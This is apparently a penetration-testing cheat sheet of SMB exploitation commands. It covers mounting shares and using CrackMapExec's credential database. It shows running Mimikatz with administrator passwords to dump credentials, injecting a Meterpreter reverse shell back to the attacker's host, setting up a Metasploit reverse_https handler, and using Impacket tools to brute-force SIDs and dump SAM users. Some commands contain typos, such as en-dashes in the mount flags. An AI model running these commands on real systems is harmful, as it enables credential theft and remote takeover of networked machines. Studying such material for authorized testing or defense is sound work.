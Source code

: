 ```shell
Save and exit the file and execute mount –a, df –H to check if you did any mistakes..
```

#### amiga-smbfs
> https://github.com/obarthel/amiga-smbfs
- example - `mount –t smbfs 192.168.0.1:/share1 /mnt –o username=surendra,workgroup=test`

### Exploitation
#### PrivEsc | fstab
- `mount –t smbfs ipadd:/sharename /mountpoint –o username=userid,workgroup=workgroupname`
- `mount –t smbfs //ipadd/sharename /mountpoint –o username=userid,workgroup=workgroupname` 

#### PrivEsc | Crackmapexec (Using the database)
```text 
The database automatically store every hosts reaches by CME and all credentials with admin access $ cmedb 
```
- Get credentials access for a specific account - `cmedb> creds <username>`
- Using credentials from the database - `crackmapexec smb 192.168.100.1 -id <credsID>`
- Get stored credentials - `cmedb> creds`
- List stored hosts - `cmedb> hosts`
- Using workspaces - `cmedb> workspace create test` 
- Using workspaces - `cmedb> workspace test`
- Access a protocol database and switch back - `cmedb (test)> proto smb`
- Access a protocol database and switch back - `cmedb (test)> back`
- View detailed infos for a specific machine (including creds) - `cmedb> hosts <hostname>`

#### PrivEsc | Crackmapexec (Using the Modules)
- List available modules - `crackmapexec smb -L`
- Module information - `crackmapexec smb -M mimikatz --module-info`
- View module options - `crackmapexec smb -M mimikatz --options`
- Mimikatz module - `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth - M mimikatz` 
- Mimikatz module - `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -M mimikatz`
- Mimikatz module - `crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug`
- Met_Inject module - `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444`
- Metasploit MODULE - set up a HTTP Reverse Handler - `msf > use exploit/multi/handler  msf exploit(handler) > set payload windows/meterpreter/reverse_https msf exploit(handler) > set LHOST 192.168.10.3 msf exploit(handler) > set exitonsession false msf exploit(handler) > exploit -j` 

#### PrivEsc | Impacket SMB/MSRPC tools
```text

- lookupsids → SID Bruteforce through MSRPC Interface

-  samrdump → SAM Remote Interface (MSRPC) to extract system users, available share etc.
    python /usr/share/doc/python-impacket-doc/examples /samrdump.py $ip
        - services → Used to (start, stop, delete, status, config, list, create, change) services through MSRPC interface

- netview → Get a list of opened sessions and keep tracks of who logged in/off from remote targets

- rpcdump → This script will dump the list of RPC endpoints and string bindings registered at the target.

- Dump Users
    impacket-rpcdump $ip

reg → Remote registry manipulation tool through the [MS-RRP] MSRPC Interface.

tool.py domain\user:password@IP <command/parameter> testparm
```
